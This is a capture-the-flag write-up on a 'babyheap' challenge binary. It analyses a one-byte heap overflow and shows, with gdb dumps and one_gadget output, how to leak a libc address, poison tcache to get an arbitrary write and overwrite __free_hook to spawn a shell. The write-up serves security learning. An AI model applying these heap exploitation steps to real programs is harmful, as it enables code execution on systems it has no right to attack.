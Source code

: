 # babyheap

```bash
❯ file babyheap
babyheap: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=afa4d4d076786b1a690f1a49923d1e054027e8e7, for GNU/Linux 3.2.0, stripped
❯ checksec babyheap
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```
Sooo full protection.

Seems to be a classic heap allocation executable with a menu:
```bash
-----Yet Another Babyheap!-----
[M]alloc 
[F]ree 
[S]how 
[E]xit 
------------------------
Command:
> 
```

## Analysis

### global objects

There seems to be two global object used accross the different functions, one for keeping a list of allocated pointers, the other for showing the size of allocated pointers.

### [M]alloc

There seems to be a bit of logic with the sizing of the allocation. If the requested size is more than `0x178`, it will error out. Else it will either:
* allocate `0xf8` if the requested size was strictly less than `0xf9`
* or else allocate `0x178`
What is suprising is that it keeps the requested size in the size array instead of the actual size of the chunk.

It will also look for the first free entry in the pointer list in order to save the allocated chunk into it. So if I have `0, 1, 2, 3` allocated entries, free `1 & 2`, then allocate one chunk I'll have `0, 1, 3` as allocated entries.

When allocating `0xf8` sized chunks, there seems to be a 1 byte overflow since it will read until it reach `0xf8` with `0` included, which makes it `0xf9` bytes. It will precisely overflow the next chunk on the previous used flag and part of the size.

There can be no more than 10 chunks.

### [F]ree

Free seems to be quite clean:
* it checks the index value (0 <= index < 10)
* it errors out if the address we want to free is null
* put zeros in the region to be freed
* set the pointer to null
* set a boolean for the usage to false

### [S]how

Nothing really pecular here, it will just displays the selected chunk if it exists. Probably useful for the leak.

## Exploit

Looking at the few options we have, we'll probably have to play with the particular sizing strategy with malloc which gives us a single byte overflow.

We're gonna use this single byte overflow in order to play with the size of the chunks. To be more precise, we'll change the size of a freed chunk so that it would spill over another free chunk following it.

I'll try to illustrate it with gdb. First with the setup we need 3 chunks, and free 2 of them so that the last to be freed is just above an allocated one.
```
0x5606c8647290:	0x0000000000000000	0x0000000000000101  <- second freed chunk>
0x5606c86472a0:	0x00005606c86474a0	0x00005606c8647010
[...]
0x5606c8647390:	0x0000000000000000	0x0000000000000101
0x5606c86473a0:	0x6161616161616161	0x6161616161616161
[...]
0x5606c8647490:	0x6161616161616161	0x0000000000000101  <- first freed chunk>
0x5606c86474a0:	0x0000000000000000	0x00005606c8647010
0x5606c86474b0:	0x0000000000000000	0x0000000000000000
```

Then reallocate the last to be freed, and overwrite the header of the next chunk so that it fell in the other category of the allocation (aka chunks of size 0x180).
```
0x5606c8647290:	0x0000000000000000	0x0000000000000101  <- freshly reallocated chunk>
0x5606c86472a0:	0x6262626262626262	0x6262626262626262
[...]
0x5606c8647390:	0x6262626262626262	0x0000000000000180  <- metadata partially overwritten>
0x5606c86473a0:	0x6161616161616161	0x6161616161616161
[...]
0x5606c8647490:	0x6161616161616161	0x0000000000000101  <- first freed chunk>
0x5606c86474a0:	0x0000000000000000	0x00005606c8647010
0x5606c86474b0:	0x0000000000000000	0x0000000000000000
```

Then we free the overwritten chunk, so that it would go in the tcache for the chunks of size 0x180.
```
0x5606c8647290:	0x0000000000000000	0x0000000000000101
0x5606c86472a0:	0x6262626262626262	0x6262626262626262
[...]
0x5606c8647390:	0x6262626262626262	0x0000000000000180  <- freshly freed chunk, metadata partially overwritten>
0x5606c86473a0:	0x0000000000000000	0x00005606c8647010
[...]
0x5606c8647490:	0x0000000000000000	0x0000000000000101  <- first freed chunk>
0x5606c86474a0:	0x0000000000000000	0x00005606c8647010
0x5606c86474b0:	0x0000000000000000	0x0000000000000000
```

Now if we allocate a chunk of size 0x180, we are able to overwrite part of the chunk that was just after it. We do so in order to be able to print the address that was stored in it.
```
0x5606c8647290:	0x0000000000000000	0x0000000000000101
0x5606c86472a0:	0x6262626262626262	0x6262626262626262
[...]
0x5606c8647390:	0x6262626262626262	0x0000000000000180
0x5606c86473a0:	0x6464646464646464	0x6464646464646464
[...]
0x5606c8647490:	0x6464646464646464	0x6464646464646464  <- overwritten header of first freed chunk>
0x5606c86474a0:	0x6464646464646464	0x00005606c8647010
0x5606c86474b0:	0x0000000000000000	0x0000000000000000
```

However this address is not very interesting to leak. In order to have something better, we'll also fill smallbin in order to have a leak to libc. With some adjustements it will look like this:
```
0x5613c366c290:	0x0000000000000000	0x0000000000000101  <- chunk that overwrites size of next>
0x5613c366c2a0:	0x6262626262626262	0x6262626262626262
[...]
0x5613c366c390:	0x6262626262626262	0x0000000000000180  <- overwritten chunk that has been reallocated>
0x5613c366c3a0:	0x6464646464646464	0x6464646464646464
[...]
0x5613c366c490:	0x6464646464646464	0x6464646464646464  <- following chunk (in small bin) with its header erased>
0x5613c366c4a0:	0x00007f144e46ecd0	0x00007f144e46ecd0  <- the leak to libc we wanted ;)>
```

The leak pointing to:
```
gef➤  x 0x00007f144e46ecd0
0x7f144e46ecd0 <main_arena+336>:	0x00007f144e46ecc0
```

The rest of the exploit will revolves around faking a chunk and allocate it in order to have write access anywhere. To do so, we will overwrite size information in tcache in order to create an overlapping chunk in tcache. This overlapping chunk will overwrite a fd address of a freed chunk just after that one. Upon allocation of the chunk with the overwritten fd pointer, we will create a fake freed chunk, pointing wherever we want it to.

We will then only have to allocate it and write anything (say, a gadget) in order to complete our exploit. As per the tutorial, we will write to `__malloc_hook`.

Gadget to write to malloc:
```
❯ one_gadget libc-2.31.so
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

For all of them the conditions were not met (I exit in sigsev), but I have some hopes for the first one. Let's see if we can set r12 to NULL. 

But using a gadget will mean putting two addresses, and the executable will stop at the first null bytes. So I'll have to try something else.

I decided to overwrite `free_hook` instead of `malloc_hook`, in hope that the registers would be in a different state and allow me to launch my exploit. And indeed that worked for me !